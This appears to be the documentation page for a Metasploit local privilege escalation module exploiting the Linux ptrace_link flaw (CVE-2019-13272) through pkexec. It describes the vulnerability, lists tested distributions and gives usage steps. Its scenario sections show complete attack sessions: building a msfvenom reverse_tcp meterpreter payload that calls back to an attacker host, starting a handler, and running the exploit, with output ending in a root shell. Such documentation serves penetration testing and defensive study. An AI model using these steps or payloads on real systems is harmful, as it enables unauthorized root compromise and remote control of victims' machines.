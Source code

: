 ## Vulnerable Application

This module exploits an issue in ptrace_link in kernel/ptrace.c before Linux
kernel 5.1.17. This issue can be exploited from a Linux desktop terminal, but
not over an SSH session, as it requires execution from within the context of
a user with an active Polkit agent.

In the Linux kernel before 5.1.17, ptrace_link in kernel/ptrace.c mishandles
the recording of the credentials of a process that wants to create a ptrace
relationship, which allows local users to obtain root access by leveraging
certain scenarios with a parent-child process relationship, where a parent drops
privileges and calls execve (potentially allowing control by an attacker). One
contributing factor is an object lifetime issue (which can also cause a panic).
Another contributing factor is incorrect marking of a ptrace relationship as
privileged, which is exploitable through (for example) Polkit's pkexec helper
with PTRACE_TRACEME. NOTE: SELinux deny_ptrace might be a usable workaround in
some environments.

  This module has been tested successfully on:
  * Ubuntu 16.04.5 kernel 4.15.0-29-generic
  * Ubuntu 18.04.1 kernel 4.15.0-20-generic
  * Ubuntu 19.04 kernel 5.0.0-15-generic
  * Ubuntu Mate 18.04.2 kernel 4.18.0-15-generic
  * Linux Mint 17.3 kernel 4.4.0-89-generic
  * Linux Mint 18.3 kernel 4.13.0-16-generic
  * Linux Mint 19 kernel 4.15.0-20-generic
  * Xubuntu 16.04.4 kernel 4.13.0-36-generic
  * ElementaryOS 0.4.1 4.8.0-52-generic
  * Backbox 6 kernel 4.18.0-21-generic
  * Parrot OS 4.5.1 kernel 4.19.0-parrot1-13t-amd64
  * Kali kernel 4.19.0-kali5-amd64
  * Redcore 1806 (LXQT) kernel 4.16.16-redcore
  * MX 18.3 kernel 4.19.37-2~mx17+1
  * RHEL 8.0 kernel 4.18.0-80.el8.x86_64
  * Debian 9.4.0 kernel 4.9.0-6-amd64
  * Debian 10.0.0 kernel 4.19.0-5-amd64
  * Devuan 2.0.0 kernel 4.9.0-6-amd64
  * SparkyLinux 5.8 kernel 4.19.0-5-amd64
  * Fedora Workstation 30 kernel 5.0.9-301.fc30.x86_64
  * Manjaro 18.0.3 kernel 4.19.23-1-MANJARO
  * Mageia 6 kernel 4.9.35-desktop-1.mga6
  * Antergos 18.7 kernel 4.17.6-1-ARCH

## Verification Steps

  1. Start msfconsole
  1. Get a shell or meterpreter session on the target
  1. Do: `use exploit/linux/local/ptrace_traceme_pkexec_helper`
  1. Do: `set session #`
  1. Do: `exploit`

## Options

  **WritableDir**

  A folder we can write files to.  Defaults to `/tmp`

  **COMPILE**
  
  If we should live compile on the system, or drop pre-created binaries.  Auto will determine if gcc/libs are installed to compile live on the system.  Defaults to `Auto`

## Scenarios

### Ubuntu 18.04 (with Linux 4.15.0-13-generic)

#### Initial Access

We need to gain an initial session on the target system before we can use this module.
Additionally this module will only work from a GUI session, and will fail with an SSH session.
In order to gain a compatible session we will upload a payload binary and run it from gnome-terminal.

```
# Create a payload binary
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.56.1 LPORT=4444 -f elf -o binary

# Start a handler
msfconsole
msf > use exploit/multi/handler
msf exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf exploit(multi/handler) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.56.1:4444

# Execute the payload using gnome-terminal on the target

[*] Sending stage (3021284 bytes) to 192.168.56.7
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.7:33244) at 2019-09-03 17:42:17 +0800

meterpreter > background

```

#### Escalate

In this scenario, gcc is installed so we can live compile on the system.

```
msf exploit(multi/handler) > use exploit/linux/local/ptrace_traceme_pkexec_helper
msf exploit(linux/local/ptrace_traceme_pkexec_helper) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf exploit(linux/local/ptrace_traceme_pkexec_helper) > set SESSION 1
SESSION => 1
msf exploit(linux/local/ptrace_traceme_pkexec_helper) > set VERBOSE true
VERBOSE => true
msf exploit(linux/local/ptrace_traceme_pkexec_helper) > exploit
[*] Started reverse TCP handler on 192.168.56.1:4444
[+] Kernel version 4.15.0-13-generic appears to be vulnerable
[+] pkexec is installed
[*] Writing '/tmp/.zacecz' (285 bytes) ...
[+] gcc is installed
[*] Live compiling exploit on system...
[*] Writing '/tmp/.fmrefxhjjcq.c' (9718 bytes) ...
[*] Executing exploit '/tmp/.fmrefxhjjcq'
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3021284 bytes) to 192.168.56.7
[*] Exploit result:
Linux 4.10 < 5.1.17 PTRACE_TRACEME local root (CVE-2019-13272)
[.] Checking environment ...
[!] Warning: $XDG_SESSION_ID is not set
[!] Warning: Could not find active PolKit agent
[~] Done, looks good
[.] Searching for known helpers ...
[~] Found known helper: /usr/lib/gnome-settings-daemon/gsd-backlight-helper
[.] Using helper: /usr/lib/gnome-settings-daemon/gsd-backlight-helper
[.] Spawning suid process (/usr/bin/pkexec) ...
[.] Tracing midpid ...
[~] Attached to midpid
[*] Meterpreter session 2 opened (192.168.56.1:4444 -> 192.168.56.7:58270) at 2019-09-03 17:29:57 +0800
meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
```

#### Escalate w/ pre-compiled binaries

It is possible to force pre-compiled binaries, in a scenario where `build-essential` or `gcc` aren't on the system.

```
msf exploit(multi/handler) > use exploit/linux/local/ptrace_traceme_pkexec_helper
msf exploit(linux/local/ptrace_traceme_pkexec_helper) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf exploit(linux/local/ptrace_traceme_pkexec_helper) > set SESSION 1
SESSION => 1
msf exploit(linux/local/ptrace_traceme_pkexec_helper) > set COMPILE False
COMPILE => False
msf exploit(linux/local/ptrace_traceme_pkexec_helper) > run

[*] Started reverse TCP handler on 192.168.56.1:4444
[+] Kernel version 4.15.0-13-generic appears to be vulnerable
[+] pkexec is installed
[*] Writing '/tmp/.yaamzkukaml' (285 bytes) ...
[*] Dropping pre-compiled exploit on system...
[*] Writing '/tmp/.wtoplrisgzzo' (51200 bytes) ...
[*] Executing exploit '/tmp/.wtoplrisgzzo'
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3021284 bytes) to 192.168.56.7
[*] Exploit result:
Linux 4.10 < 5.1.17 PTRACE_TRACEME local root (CVE-2019-13272)
[.] Checking environment ...
[!] Warning: $XDG_SESSION_ID is not set
[!] Warning: Could not find active PolKit agent
[~] Done, looks good
[.] Searching for known helpers ...
[~] Found known helper: /usr/lib/gnome-settings-daemon/gsd-backlight-helper
[.] Using helper: /usr/lib/gnome-settings-daemon/gsd-backlight-helper
[.] Spawning suid process (/usr/bin/pkexec) ...
[.] Tracing midpid ...
[~] Attached to midpid
[*] Meterpreter session 3 opened (192.168.56.1:4444 -> 192.168.56.7:58272) at 2019-09-03 17:30:16 +0800
```


